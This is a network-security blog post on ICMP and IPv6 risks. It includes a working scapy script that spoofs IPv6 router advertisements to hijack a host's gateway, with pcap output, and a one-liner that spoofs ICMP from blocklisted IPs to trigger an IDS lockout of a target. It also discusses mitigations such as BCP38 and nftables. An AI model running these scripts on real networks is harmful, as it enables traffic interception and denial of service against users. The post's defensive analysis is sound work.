 +++
Title = "Should I enable ICMP? (Pt. 1)"
Date = "2023-01-15T23:20:20-0800"
Author = "Paige"
Description = "Some thoughts on my experiences and in response to shouldiblockicmp.com"
cover = "img/og.png"
tags = ["Security", "scapy", "IDS DoS", "Spoofing"]
+++

> Yes!

## hold up...

Awhile ago I read an article called [Should I block ICMP](http://shouldiblockicmp.com)? The sentiment is pretty much in line with my own which is that ICMP is entirely necesarry for a variety of reasons especially in IPv6. Unfortunately my experience tells me that ICMP presents a lot of security problems when left unchecked and it's mostly or entirely left unchecked everywhere I've seen it left on. This will be an attempt to analyze some of the problems and present some insight as to how to mitigate some of the problems.

## IPv6 ND_RA

I have been most interested in this one for awhile. Router advertisements are really useful, but the deployment of IPv6 and it's reception has met with strong resistance and a disjointed comprehension of the theory behind things like router advertisements. Here is an example of how to abuse it using the scapy framework in python:

{{< highlight python >}}
from scapy.all import *
from ipaddress import IPv6Network

sendp((lambda lladdr, llsrc, lldst, prefixlen, prefix: Ether(dst = lldst, src = llsrc) 
/ IPv6(src = lladdr) / ICMPv6ND_RA() / ICMPv6NDOptSrcLLAddr(lladdr = llsrc) / ICMPv6NDOptMTU() 
/ ICMPv6NDOptPrefixInfo(prefixlen=prefixlen, prefix=prefix) / ICMPv6NDOptRouteInfo(prf = 1, plen = 3, 
prefix = "2000::", rtlifetime = 0xffffffff))("fe80::4398:6d2e:c5ca:cb73", "c0:3c:59:ed:e3:1f", 
"9c:b6:d0:3f:72:96", 64, next(IPv6Network("fc00:1d13:f001::/48").subnets(64)).network_address), count = 16)
{{< / highlight >}}

To clarify, this is a router advertisement spoofed as another computer as the source, to a windows machine as it's destination. Here's a complete breakdown of the assumptions and what it does: 

- Is able to send a spoofed ethernet header (mac address spoofing)
- Is able to send unfiltered router advertisements to `ff02::1`
- It relies on the fact that the host that it's being sent to will automatically accept the address that is advertised
(SLAAC)
- The spoofed source mac address is: `c0:3c:59:ed:e3:1f`
- The spoofed layer 3 link local source address is: `fe80::4398:6d2e:c5ca:cb73`
- The destination mac address is: `9c:b6:d0:3f:72:96`
- The destination layer 3 address is: `ff02::1` (Link-Local multicast all-nodes address)
- Both clients are connected to a wireless access point that is connected to a UDM Pro
- The filtering characteristics of the wireless access point are unknown 
- The UDM pro is configured without filtering (no IGMP snooping or ND_RA filtering.)

From the sender's perspective, the pcap of what they're sending will look like this: 

```
 00:00:00.000664 c0:3c:59:ed:e3:1f > 9c:b6:d0:3f:72:96, ethertype IPv6 (0x86dd), length 142: (hlim 255, next-header ICMPv6 (58) payload length: 88) fe80::4398:6d2e:c5ca:cb73 > ff02::1: [icmp6 sum ok] ICMP6, router advertisement, length 88
    hop limit 0, Flags [none], pref high, router lifetime 1800s, reachable time 0ms, retrans timer 0ms
      source link-address option (1), length 8 (1): c0:3c:59:ed:e3:1f
        0x0000:  c03c 59ed e31f
      mtu option (5), length 8 (1):  1280
        0x0000:  0000 0000 0500
      prefix info option (3), length 32 (4): fc00:1d13:f001::/64, Flags [onlink, auto], valid time infinity, pref. time infinity
        0x0000:  40c0 ffff ffff ffff ffff 0000 0000 fc00
        0x0010:  1d13 f001 0000 0000 0000 0000 0000
      route info option (24), length 24 (3):  2000::/3, pref=high, lifetime=infinity
        0x0000:  0308 ffff ffff 2000 0000 0000 0000 0000
        0x0010:  0000 0000 0000
    0x0000:  9cb6 d03f 7296 c03c 59ed e31f 86dd 6000  ...?r..<Y.....`.
    0x0010:  0000 0058 3aff fe80 0000 0000 0000 4398  ...X:.........C.
    0x0020:  6d2e c5ca cb73 ff02 0000 0000 0000 0000  m....s..........
    0x0030:  0000 0000 0001 8600 a2a1 0008 0708 0000  ................
    0x0040:  0000 0000 0000 0101 c03c 59ed e31f 0501  .........<Y.....
    0x0050:  0000 0000 0500 0304 40c0 ffff ffff ffff  ........@.......
    0x0060:  ffff 0000 0000 fc00 1d13 f001 0000 0000  ................
    0x0070:  0000 0000 0000 1803 0308 ffff ffff 2000  ................
    0x0080:  0000 0000 0000 0000 0000 0000 0000       ..............
    ```
```

And the result is it 100% works. The recipient sees essentially the same. Modern Windows 10 and 11 machines with IPv6 enabled will have SLAAC enabled by default. The client has now
configured the delegated prefix `fc00:1d13:f001::/64` for itself and configured `fe80::4398:6d2e:c5ca:cb73` as the gateway for `2000::/3`.

- It might be worth noting that traffic destined for `ff02::1` generally specifies a destination MAC address of [33:33:00:00:00:01](https://en.wikipedia.org/wiki/Multicast_address#Ethernet)

## Thrown under the IDS

UDM pro has some nifty security options for detecting suspicious network activity and locking out specific client or completely locking down the network. It might be possible to influence this behavior by eliciting an ICMP reply from a target to a blacklisted address:

{{< highlight python >}}
curl -s http://rules.emergingthreats.net/blockrules/compromised-ips.txt | shuf | sudo python3 -c 'import sys; 
from scapy.all import *; (lambda z, target, smac, dmac: [sendp(Ether(dst = dmac, src = smac)/IP(src = x.strip(), 
dst = target)/ICMP(id = y - 10000, seq = y - 10000)) for x, y in zip(z, range(10000, 10000 + 
len(z)))])(sys.stdin.readlines(), "192.168.1.12", "ff:ff:ff:ff:ff:ff", "9c:b6:d0:3f:72:96")'
{{< / highlight >}}

- `192.168.1.12` has a MAC address of `9c:b6:d0:3f:72:96` and it is the target of this attack
- Each IP in the compromised-ips.txt is paired with a unique id number (up to 10000 or less if there are fewer than 10000 IP addresses), and a packet is sent for each IP to `192.168.1.12` for each of the addresses as the source address. 
- The client receives this and sends a reply to the spoofed address
- The router receives the reply sent to the malicious address and locks out the client
- This can also be accomplished with TCP SYN causing a client to ACK @ a spoofed address. The same is true for UDP.

## There's a lot to think about 
For internet routers, networks have to implement [BCP38 practices](https://www.ietf.org/rfc/bcp/bcp38.html) to prevent packet spoofing but is often overlooked or in-actionable due to [scalability problems](https://ripe58.ripe.net/content/presentations/bgp-scaling-considerations.pdf). To be fair, the problem arises when a user decides to send a packet with the target of an attack's IP address specified as the source address to a large number of hosts; a small UDP packet it sent with a spoofed address to a destination and the destination sends a much larger response UDP packet to the specified source address--amplification attacks. 

- Global Unicast Addresses (GUAs) in IPv6 are "globally scoped" addresses. 

ISP's cannot delegate a prefix smaller than a `/64`, but even if they did, a `/64` is an incomprehensible amount of address space (18,446,744,073,709,551,616 addresses.) It's actually wasteful to configure each host with a `/64`. Neighbor Discovery Protocol is essential 
to making use of the entire addressable range of a `/64`. Essentially, the router is delegated the `/64`, and leases addresses from this block to clients on a network using DHCPv6 and/or SLAAC. NDP is comprised of ICMPv6 type `133`, `134`, `135`, `136`, `137`. Types `133`, `135`, and `136` must be unrestricted to `fe80::/10` and to the `/64` itself which isn't known until it is delegated by the ISP so this presents a chicken and egg problem for creating firewall rules; unless you can specify [hop count / next hop criteria](https://wiki.nftables.org/wiki-nftables/index.php/Matching_routing_information) for filtering ICMPv6.

GUA addresses are internet routable addresses. This presents a problem for people in terms of adoption of IPv6 because in general people tend to think about security in terms of this world vs. the world. Consequently, the world poeple will create calls for no solution that doesn't solve the problem. I won't say that configuring a firewall on everything is a reasonable solution, but I'm not saying that it isn't either.

Amazon came up with a way to describe a solution to make IPv6 meet half way with the fundamental way that people think about networking security called [Egress-only Gateways](https://docs.aws.amazon.com/vpc/latest/userguide/egress-only-internet-gateway.html). It's not a concept that is unique to Amazon. I'm not aware of a way this can be accomplished with BGP, this is undoubtedly made possible using a stateful firewall which for a lot of people remains a [scalability problem](https://people.netfilter.org/kadlec/nftest.pdf).

The unfortunate truth is that it's [never going to not be a scalability problem](https://en.wikipedia.org/wiki/Time_complexity). But there's a lot you can do now, that you haven't always been able to do with stateful firewalls as I've outlined in my [presentation on NFTables](https://paige.bio/nftables_presentation) such as [Flowtables](https://wiki.nftables.org/wiki-nftables/index.php/Flowtables). Another fantastic advantage of NFTables is the flexibility of the language itself to better realize the complexities of stateful queuing and measuring traffic as well as dynamically making adjustments based on measured traffic. 

For [part 2](/posts/icmp_pt2/), I'd like to cover some of the lesser known aspects of ICMP. Things like admin-prohibited and what they should mean but also why it's not as simple as just letting it be a REJECT as well as ways you can counter abuse. This is a topic I've been wanting to cover for a long time, but it's going to take awhile. 
